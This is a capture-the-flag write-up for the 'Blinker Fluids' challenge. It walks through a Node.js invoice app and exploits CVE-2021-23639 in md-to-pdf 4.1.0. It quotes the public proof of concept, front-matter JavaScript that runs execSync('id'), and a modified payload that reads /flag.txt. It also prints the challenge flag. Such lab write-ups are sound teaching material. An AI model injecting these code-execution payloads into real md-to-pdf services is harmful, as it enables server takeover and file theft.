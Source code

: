 # Blinker Fluids

## Challenge info:

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

------

We got Docker instance and downloadable part which contains source code.

So, we got Node.js application with the list of invoices

![main](screenshots/main.png)

There are several actions that we have such as create invoice, export to PDF or delete. If we click the 'Create New Invoice' button then we will see WYSIWYG editor.

![create_invoice](screenshots/create_invoice.png)

Let's go to check source code and find out what happening. The most interesting place is invoice creating:

```js
router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
                db.addInvoice(id)
					.then(() => {
						res.send(response('Invoice saved successfully!'));
					})
					.catch(e => {
						res.send(response('Something went wrong!'));
					})
            })
            .catch(e => {
                console.log(e);
                return res.status(500).send(response('Something went wrong!'));
            })
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```

Here markdown is converted to PDF and id of invoice is inserted in database. And also let's see to source code of method that converts MD to PDF.

```js
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}
```

A third-party library is imported here and then used to generate PDFs. Also, after generation the PDF is saved in `/static/invoices`. In the `package.json` we can see that application is using version `4.1.0` of md-to-pdf library. 

```json
{
	"name": "blinker-fluids",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"author": "rayhan0x01",
	"license": "ISC",
	"dependencies": {
		"express": "4.17.3",
		"md-to-pdf": "4.1.0",
		"nunjucks": "3.2.3",
		"sqlite-async": "1.1.3",
		"uuid": "8.3.2"
	},
	"devDependencies": {
		"nodemon": "^1.19.1"
	}
}
```

Let's see what is this library and does it have some vulnerabilities. After some searching I was able to find [CVE-2021-23639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-23639) and [Issue on GitHub](https://github.com/simonhaenisch/md-to-pdf/issues/99) with PoC. As stated in the CVE, versions below 5.0.0 are vulnerable and we have 4.1.0 so we can try it.

The initial PoC was `---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE` but let's modifiy it to get a flag.

From Dockerfile we know that flag is located in `/flag.txt`. Our payload will be:

```js
---js
(require("fs").writeFileSync("static/flag.txt", (require("fs")).readFileSync("/flag.txt", "utf8")))
---
```

And the next step will be go to `/static/flag.txt` and got the flag `HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`

## Flag:

> `HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`

